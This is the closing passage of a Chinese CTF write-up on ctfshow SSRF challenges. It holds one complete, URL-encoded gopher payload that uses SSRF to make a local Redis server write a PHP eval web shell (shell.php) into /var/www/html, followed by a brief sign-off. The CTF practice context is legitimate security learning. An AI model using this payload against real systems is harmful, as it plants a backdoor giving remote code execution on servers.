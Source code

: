 `payload：url=gopher%3A%2F%2F127.0.0.1%3A6379%2F_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252425%250D%250A%250A%250A%253C%253F%253Deval%2528%2524_POST%255B1%255D%2529%253B%253F%253E%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252413%250D%250A%2Fvar%2Fwww%2Fhtml%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25249%250D%250Ashell.php%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A%250A`

![image-20220113134148341](image/ctfshow-SSRF(351-360)/image-20220113134148341.png)

## 写在最后

SSRF到此结束了，仍需多加练习才能更深入掌握

——KonDream 2022年1月13日13:43:14

